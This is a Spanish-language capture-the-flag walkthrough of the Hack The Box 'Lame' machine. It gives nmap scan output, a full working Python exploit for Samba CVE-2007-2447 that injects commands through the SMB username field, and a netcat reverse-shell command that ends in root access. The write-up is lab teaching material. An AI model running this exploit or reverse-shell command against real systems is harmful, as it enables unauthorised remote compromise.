

# Information Gathering

Escaneado de todos los puertos TCP:

```bash
> sudo nmap -sS -p- --open --min-rate 5000 -Pn -n 10.10.10.3  -oG nmap
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

Puertos TCP abiertos enumerados:

```bash
> nmap -p21,22,139,445,3632 -sVC 10.10.10.3 -Pn

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.170
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-07-04T14:04:23-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m31s, deviation: 2h49m45s, median: 29s
```

# Enumeration

## Port 445 - SMB (Samba smbd 3.0.20)

busca en google Samba smbd 3.0.20 exploit.

Hay muchas opciones para usar, te recomiendo que pruebes varias y entiendas como funcionan, en este caso usaré esta: CVE

```bash
#!/usr/bin/python3

import sys
try:
    from smb.SMBConnection import SMBConnection
except:
    print("pysmb is not installed: python3 -m pip install pysmb")
    quit()

if not (2 < len(sys.argv) < 5):
    print("Usage:")
    print("    python3 smbExploit.py <IP> <PORT> <PAYLOAD>")
    print("       IP - Ip of the remote machine.")
    print("       PORT - (Optional) Port that smb is running on.")
    print("       PAYLOAD - Payload to be executed on the remote machine e.g. reverse shell.")
    print("")
    print("Example: python3 smbExploit.py 192.168.1.2 139 'nc -e /bin/sh 192.168.1.1 4444'")
    quit()

if len(sys.argv) == 3:
    ip = sys.argv[1]
    port = 139
    payload = sys.argv[2]
else:
    ip = sys.argv[1]
    port = sys.argv[2]
    payload = sys.argv[3]

user = "`" + payload + "`"
conn = SMBConnection(user, "na", "na", "na", use_ntlm_v2=False)

try:
    print("[*] Sending the payload")
    conn.connect(ip, int(port))
    print("[*] Payload was send successfully")
    quit()
except Exception as e:
    print("[*] Something went wrong")
    print("ERROR:")
    print(e)
    quit()
```

# Exploitation

## CVE-2007-2447: Remote Command Injection

Escuchamos netcat en el puerto 4444.

```bash
nc -nlvp 4444
```

La guía del exploit nos dice que lo hagamos así:

## Python Script

```bash
python3 smbExploit.py 10.10.10.3 445 'nc -e /bin/sh 10.10.14.170 4444'
```

   - Ejecutamos el exploit con python3.
   - Introducimos la IP de la máquina víctima.
   - Ponemos el puerto del SMB vulnerable, que en este caso es el 445 por defecto.
   - Luego dentro de las comillas ejecutamos el Revshell con netcat, colocando el tipo de shell que queremos, nuestra IP y el puerto en escucha que en este caso es 4444.

Inicia una sesión de shell Bash dentro de la cual puedes ejecutar comandos de forma interactiva, pero sin guardar ningún registro de sesión, ya que todo se descarta en /dev/null.

```bash
script /dev/null -c bash
```

Ya tenemos root

